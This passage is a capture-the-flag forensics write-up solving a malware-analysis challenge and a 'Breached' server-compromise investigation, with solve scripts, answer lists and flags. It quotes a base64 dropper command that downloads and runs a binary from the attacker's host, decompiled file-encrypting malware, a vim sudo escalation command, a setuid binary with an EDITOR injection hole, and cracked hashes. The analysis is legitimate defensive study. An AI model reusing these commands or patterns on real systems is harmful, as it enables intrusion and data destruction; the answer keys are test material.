

The malware also created a windows shortcut file. Please provide only the filename of this shortcut without full path!

Format Example: malicious.lnk

ANY.RUN showed a new Startup item named `App.url`.



What's the full path of the file that is going to be executed from the shortcut? This file's attribute is set to hidden.

Format Example: C:\Users\Public\hehehehe.exe

Inspecting that shortcut revealed its target: `C:\Windows\Temp\Kvlk095\exp.exe`.



`solve.py`

```python
from pwn import *

p = remote('challenges.1pc.tf', 35446)
print(p.recvuntil(b'\n').decode())

answers = [
    "trusteddevice.info",
    "ThsBFKNQuLtnyKgwB",
    "f51cc3647d327a42d7f8d0a0c2b2a5118e220b79d4bb07ec5254482d23ad6984_83aa671706ae267d8f28b1dee7eb073e",
    "d2bb7e2aeff5cbab17469afcd400104203628d4a074bf7e81b093f1a3ceca696",
    "AzeroFloid",
    "C:\\Windows\\SysWOW64\\explorer.exe",
    "65dbe5312fe14ca7b0ffeeb83ab519b6",
    "2ea6d67bfb58b50e3467e07a5e3461f6ade82ef4c960cc63369f8049f5775f62",
    "App.url",
    "C:\\Windows\\Temp\\Kvlk095\\exp.exe"
]

for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)

print(p.recvall().decode())
```

### Flag

```text
C2C{w311_donE_YOU_5ucC3SSfu11Y_DETona7E_0Ne_of_The_cLlckf!x_malw4r3_cAMp4l6n_FROm_REA1_ApT_GroUP_aS3N9i5HErE}
```

## Breached

Points: 431

### Description

Author: daffainfo

A hacker group rooted my server! Please help me recover my files and answer a few questions.

SHA256: 4D24AFC96EC88469D44B8634FCE79AB41594B630918E814FC29EE33C001D4069

### Solution

The challenge provided a VMDK and a long sequence of questions. The service let me continue after incorrect responses, so I collected the entire question set.

```text
Please answer the following questions based on your analysis:

Question #1:
1. What is the victim IP?
Required Format: 127.0.0.1
Your Answer:
Status: Incorrect!

Question #2:
2. What is the attacker IP?
Required Format: 127.0.0.1
Your Answer:
Status: Incorrect!

Question #3:
3. Which ports are exposed? Sort from the smallest to the largest
Required Format: 42,1337
Your Answer:
Status: Incorrect!

Question #4:
4. The attacker attempted to log in using anonymous FTP access but failed. At what time did this occur?
Required Format: DD/MM/YYYY HH:MM:SS
Your Answer:

Status: Incorrect!

Question #5:
5. The attacker then performed web reconnaissance using three tools. What were they? Sort alphabetically
Required Format: tools1,tools2,tools3
Your Answer: Status: Incorrect!

Question #6:
6. What CVE ID was exploited by the attacker?
Required Format: CVE-XXXX-XXXX
Your Answer:

Status: Incorrect!

Question #7:
7. What is the old hash of the admin user?
Required Format: -
Your Answer:
Status: Incorrect!

Question #8:
8. What is the old password of the admin user?
Required Format: -
Your Answer:

Status: Incorrect!

Question #9:
9.  After that, which other CVE ID did the attacker exploit?
Required Format: CVE-XXXX-XXXX
Your Answer:

Status: Incorrect!

Question #10:
10. After logging in, the attacker changed the admin password. What is the new password hash?
Required Format: -
Your Answer: Status: Incorrect!

Question #11:
11. What is the password corresponding to that hash?
Required Format: -
Your Answer:
Status: Incorrect!

Question #12:
12. After that, the attacker planted a webshell. What is its full path?
Required Format: /path/to/file
Your Answer: Status: Incorrect!

Question #13:
13. What key and IV were used by the attacker’s web shell?
Required Format: keyvalue:ivvalue
Your Answer: Status: Incorrect!

Question #14:
14. What was the first command executed by the attacker?
Required Format: -
Your Answer:
Status: Incorrect!

Question #15:
15. After that, the attacker downloaded a file and placed it in a certain path. What is the full path?
Required Format: /path/to/file
Your Answer:
Status: Incorrect!

Question #16:
16. Which user did the attacker log in as next?
Required Format: -
Your Answer:
Status: Incorrect!

Question #17:
17. After that, the attacker changed that user’s password. What was the old hash?
Required Format: -
Your Answer:
Status: Incorrect!

Question #18:
18. Which binary/file was used by this user to perform privilege escalation?
Required Format: /path/to/file
Your Answer:
Status: Incorrect!

Question #19:
19. What was the full command used to do privilege escalation? (Without using quotes or double quotes)
Required Format: -
Your Answer:
Status: Incorrect!

Question #20:
20. After that, which user did the attacker log in as?
Required Format: -
Your Answer:
Status: Incorrect!

Question #21:
21. Which binary/file was used by this user to perform privilege escalation?
Required Format: /path/to/file
Your Answer:
Status: Incorrect!

Question #22:
22. What is the name of the function in that binary/file that is vulnerable to privilege escalation?
Required Format: -
Your Answer:
Status: Incorrect!

Question #23:
23. After that, which user did the attacker log in as?
Required Format: -
Your Answer:
Status: Incorrect!

Question #24:
24. The attacker inserted a backdoor into a binary/file on the system. What is its full path?
Required Format: /path/to/file
Your Answer:
Status: Incorrect!

Question #25:
25. What password is required to use that backdoor?
Required Format: -
Your Answer:
Status: Incorrect!

Question #26:
26. Additionally, the attacker downloaded malware. Where is the full path of the dropper located?
Required Format: /path/to/file
Your Answer:
Status: Incorrect!

Question #27:
27. What command was executed by the dropper?
Required Format: -
Your Answer:
Status: Incorrect!

Question #28:
28. Decrypt secret.txt and submit its contents to this bot
Required Format: -
Your Answer:
Status: Incorrect!
```

I opened the VMDK in FTK Imager and exported its root filesystem.



`syslog` and the network configuration identified the victim as `192.168.56.106`.



A failed login in `vsftpd.log` pointed to `192.168.56.104`. I tried that as the attacker’s address, and it was accepted.



The FTP log established that port 21 was reachable. `auth.log` also showed SSH activity on port 22. The hostname suggested that a web service was running as well.



I found no Apache or Nginx directory in the usual locations, so I checked the container data under `/var/lib/docker` and `/var/lib/containerd`. A snapshot contained the website’s `access.log`, which showed port 8080.



The failed anonymous FTP login occurred at `20/01/2026 07:55:26`, as recorded in `vsftpd.log`.


In `access.log`, repeated requests to candidate paths with a consistent User-Agent pointed to dirsearch.



I also found WPScan activity against the WordPress site.



The final reconnaissance tool, Nuclei, appeared in only one log entry.



The log also showed sqlmap activity against Easy Quotes. The corresponding vulnerability was `CVE-2025-26943`.



I reused the parser from the Log challenge to recover the administrator hash from the sqlmap requests: `$wp$2y$12$HExJaTmUXM9JxiegvEHU1.KJmHh.gayKgldvQ9nRx6agpiSCOy35.`



The root user’s home contained a `docker-wp` directory. Its `.env` file exposed the administrator password.



The Apache access log contained requests to the MStore API plugin’s Apple login endpoint. I identified this as the authentication-bypass path associated with `CVE-2023-3277`.





I ran `strings` on the WordPress MySQL file `wp_users.ibd` to recover the changed password hash.



Hashcat recovered its plaintext password: `princess`.



A suspicious request targeted `/wp-content/plugins/hello.php` with a Base64 value in the `1337` parameter. The file’s code was heavily obfuscated. The service rejected the path from the disk image but accepted its container path: `/var/www/html/wp-content/plugins/hello.php`.



I used GPT to decode the webshell. These declarations supplied its key and IV components:

```php
$k = "10b29258c7e57eff";
$i = "0fd7943d377fd8aa";
```

With the webshell logic and key material recovered, I used the following script to decrypt its commands.

```python
import re
import sys
import base64
import subprocess
from urllib.parse import unquote_plus

KEY_ASCII = b"10b29258c7e57eff"
IV_ASCII  = b"0fd7943d377fd8aa"

KEY_HEX = KEY_ASCII.hex()
IV_HEX  = IV_ASCII.hex()

PAT = re.compile(r'(?:\?|&)(1337)=([^&\s"]+)')

def dec_one(b64val: str) -> bytes:
    b64val = unquote_plus(b64val)
    ct = base64.b64decode(b64val, validate=False)

    p = subprocess.run(
        ["openssl", "enc", "-d", "-aes-128-cbc", "-K", KEY_HEX, "-iv", IV_HEX],
        input=ct,
        stdout=subprocess.PIPE,
        stderr=subprocess.DEVNULL,
        check=False,
    )
    return p.stdout

def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} access.log", file=sys.stderr)
        sys.exit(1)

    with open(sys.argv[1], "r", errors="ignore") as f:
        for line in f:
            m = PAT.search(line)
            if not m:
                continue
            b64val = m.group(2)
            pt = dec_one(b64val)
            print(pt.decode("utf-8", "replace").rstrip("\n"))

if __name__ == "__main__":
    main()
```

The decrypted output showed the command `cat /etc/passwd`.



The container snapshot also contained `lin.sh`, a privilege-escalation enumeration script. The required path was `/tmp/lin.sh`.



I examined `wtmp` to identify the address used to log in as `programmer`. Since `last` was unavailable in my environment, I ran the analysis in Docker.



I recovered the `programmer` password hash from `/etc/shadow`.


I read the user’s journal with `journalctl` and identified `/usr/bin/vim` as the relevant executable.


The journal recorded the privilege-switching command. The accepted form was `sudo -u hr vim -c :!/bin/bash`.


The same journal showed the attacker moving into the `hr` account.


I checked `/usr/local/bin` for the binary used by that account and found `hr`. GPT helped reverse it and identify the privilege-escalation path in `/usr/local/bin/hr`.


The relevant function was `editEmployee`. Its decompiled code was:

```c
// Decompiled from: /mnt/data/hr
// ELF 64-bit PIE, not stripped, built from "hr.c"

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pwd.h>
#include <dirent.h>

char BASE_PATH[0x200]; // 512 bytes

static void initBasePath(void) {
    char *home = getenv("HOME");
    if (!home) {
        puts("HOME environment variable not set.");
        exit(1);
    }

    // "%s/candidates/"
    snprintf(BASE_PATH, 0x200, "%s/candidates/", home);
}

static void onlyHrCanRun(void) {
    uid_t uid = getuid();
    struct passwd *pw = getpwuid(uid);

    // allow only username == "hr"
    if (!pw || strcmp(pw->pw_name, "hr") != 0) {
        // stderr fwrite("Only user 'hr' is allowed to run this program.\n", 1, 0x2f, stderr)
        fwrite("Only user 'hr' is allowed to run this program.\n", 1, 0x2f, stderr);
        exit(1);
    }
}

static void addEmployee(void) {
    int id;
    char name[0x40];   // size inferred from stack layout
    char role[0x40];   // size inferred from stack layout
    float salary;
    char path[0x200];
    FILE *fp;

    printf("Enter ID: ");
    scanf("%d", &id);

    printf("Enter Name: ");
    scanf(" %[^\\n]", name);   // note leading space

    printf("Enter Role: ");
    scanf(" %[^\\n]", role);   // same format reused

    printf("Enter Monthly Salary: ");
    scanf("%f", &salary);

    // "%semp_%d.txt"
    snprintf(path, 0x200, "%semp_%d.txt", BASE_PATH, id);

    fp = fopen(path, "w");
    if (!fp) {
        perror("Failed to create employee file");
        return;
    }

    fprintf(fp, "ID: %d\n", id);
    fprintf(fp, "Name: %s\n", name);
    fprintf(fp, "Role: %s\n", role);
    fprintf(fp, "Salary: %.2f\n", salary);

    fclose(fp);

    printf("Employee saved: %s\n", path);
}

static void editEmployee(void) {
    int id;
    char path[0x200];
    char cmd[0x232];     // 562 bytes (matches snprintf size)
    FILE *fp;
    char *editor;

    printf("Enter Employee ID to edit: ");
    scanf("%d", &id);

    snprintf(path, 0x200, "%semp_%d.txt", BASE_PATH, id);

    fp = fopen(path, "r");
    if (!fp) {
        puts("Employee file does not exist.");
        return;
    }
    fclose(fp);

    editor = getenv("EDITOR");
    if (!editor) editor = "nano";

    // "%s %s"
    snprintf(cmd, 0x232, "%s %s", editor, path);

    // IMPORTANT: this is exactly what the binary does:
    // setuid(geteuid()); then system(cmd);
    setuid(geteuid());
    system(cmd);
}

static void listEmployees(void) {
    DIR *d;
    struct dirent *ent;
    int found = 0;

    d = opendir(BASE_PATH);
    if (!d) {
        perror("Failed to open directory");
        return;
    }

    puts("--- Candidate Records ---");

    while ((ent = readdir(d)) != NULL) {
        // Match files that:
        // - start with "emp_"
        // - contain ".txt"
        if (strncmp(ent->d_name, "emp_", 4) == 0 && strstr(ent->d_name, ".txt")) {
            puts(ent->d_name);
            found = 1;
        }
    }

    if (!found) {
        puts("No candidates found.");
    }

    closedir(d);
}

static void menu(void) {
    puts("==== HR CLI TOOL ====");
    puts("1. Add Candidate (write file)");
    puts("2. Edit Candidate (open editor)");
    puts("3. List Candidates");
    puts("4. Exit");
    printf("Choose: ");
}

int main(void) {
    int choice;

    onlyHrCanRun();
    initBasePath();

    while (1) {
        menu();
        scanf("%d", &choice);

        if (choice == 1) {
            addEmployee();
        } else if (choice == 2) {
            editEmployee();
        } else if (choice == 3) {
            listEmployees();
        } else if (choice == 4) {
            puts("Goodbye.");
            return 0;
        } else {
            puts("Invalid option.");
        }
    }
}
```

The next privilege level reached by the attacker was `root`.

To identify the modified system file, I checked package file hashes with `debsums`. It reported a mismatch for `/usr/lib/x86_64-linux-gnu/security/pam_unix.so`.


I used GPT to help analyze the modified binary and recovered the value `ccc4db16da53f4d801a2ad91818b45ed617ba53d`.


For the downloaded malware, I checked `programmer`’s `.wget-hsts`, which recorded `github.com` and a useful timestamp. Searching the filesystem around that time led to `/opt/drop` and `/opt/m`. The accepted answer was `/opt/drop`.


Reversing the dropper with GPT revealed this command:

```bash
echo d2dldCBodHRwOi8vMTkyLjE2OC41Ni4xMDQ6MTMzNy9tOyBjaG1vZCAreCBtOyAuL20= | base64 -d | bash
```


The command downloaded and executed `m` from `http://192.168.56.104:1337/m`. The file was protected with PyArmor, and GPT’s initial attempt did not recover it. I used https://github.com/Lil-House/Pyarmor-Static-Unpack-1shot and obtained the following output.

```python
# File: m.pyc_Decompiled.py.1shot.seq (Python 3.13)
# Source generated by Pyarmor-Static-Unpack-1shot (v0.2.2), powered by Decompyle++ (pycdc)

# Note: Decompiled code can be incomplete and incorrect.
# Please also check the correct and complete disassembly file: m.pyc_Decompiled.py.1shot.das

'__pyarmor_enter_1175__(...)'
__assert_armored__ = '__pyarmor_assert_1174__'
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
import os
from pathlib import Path
import requests

def r():
    '__pyarmor_enter_1178__(...)'
    __assert_armored__ = '__pyarmor_assert_1177__'
    _var_var_0 = Path.home() / 'README.txt'
# WARNING: Decompyle incomplete


def rr(root_dir):
    pass
# WARNING: Decompyle incomplete


def e(filepath, key, nonce):
    '__pyarmor_enter_1184__(...)'
    __assert_armored__ = '__pyarmor_assert_1183__'
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    key = None(requests.get('http://192.168.56.104:1337/k').content.strip)
    nonce = None(requests.get('http://192.168.56.104:1337/n').content.strip)
    for file_path in rr(Path.home()):
        e(file_path, key, nonce)
r()
return None
return None
'__pyarmor_exit_1176__(...)'
'__pyarmor_exit_1176__(...)'
```

The code fetched its key from `http://192.168.56.104:1337/k` and used AES-GCM. I used GPT to interpret the recovered disassembly and identify the `.daf` file layout:

```python
prefix = nonce[:6]
suffix = nonce[6:]
# Stored file layout: prefix + ciphertext_and_tag + suffix
```

I did not find the downloaded key directly. Since the key endpoint and earlier PHP service both used port 1337, I tried combining the webshell’s `k` and `i` strings. That worked. The nonce was the file prefix and suffix concatenated as 12 ASCII bytes. I used the following script to decrypt the secret.

```python
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

key   = b"10b29258c7e57eff0fd7943d377fd8aa"
nonce = b"54947c7ba60c"

b = open("root/secret.txt.daf","rb").read()
ct_tag = b[6:-6]

pt = AESGCM(key).decrypt(nonce, ct_tag, None)
print(pt.decode())
```


`solve.py`

```python
from pwn import *

p = remote('challenges.1pc.tf', 34925)
print(p.recvuntil(b'\n').decode())

answers = [
    "192.168.56.106",
    "192.168.56.104",
    "21,22,8080",
    "20/01/2026 07:55:26",
    "dirsearch,nuclei,wpscan",
    "CVE-2025-26943",
    "$wp$2y$12$HExJaTmUXM9JxiegvEHU1.KJmHh.eayKgldvQ9nRx6agpiSCOy35.",
    "3eb29d691548c45ea17c2302aa251c55",
    "CVE-2023-3277",
    "$wp$2y$10$nX7P5HYoKSQSxYd/8WJoReewlYZ025COyQs3.MvY/5hnsN0mZ88fG",
    "princess",
    "/var/www/html/wp-content/plugins/hello.php",
    "10b29258c7e57eff:0fd7943d377fd8aa",
    "cat /etc/passwd",
    "/tmp/lin.sh",
    "programmer",
    "$y$j9T$mnowOuMeDR90jMf.c2p4z1$y.doQVO3iErFbxhrht0JR4LNiK.5JgBYJ9GLwKav0K8",
    "/usr/bin/vim",
    "sudo -u hr vim -c :!/bin/bash",
    "hr",
    "/usr/local/bin/hr",
    "editEmployee",
    "root",
    "/usr/lib/x86_64-linux-gnu/security/pam_unix.so",
    "ccc4db16da53f4d801a2ad91818b45ed617ba53d",
    "/opt/drop",
    "echo d2dldCBodHRwOi8vMTkyLjE2OC41Ni4xMDQ6MTMzNy9tOyBjaG1vZCAreCBtOyAuL20= | base64 -d | bash",
    "D3cRyptEd1337!!"
]

for answer in answers:
    p.sendline(answer.encode())
    response = p.recv().decode()
    print(response)

print(p.recvall().decode())
```

### Flag

```text
C2C{someone_just_rooted_ur_server_hahaha_16265b0f0bb3}
```

This was a lengthy investigation: 28 questions, several binaries to reverse, and a final decryption step.
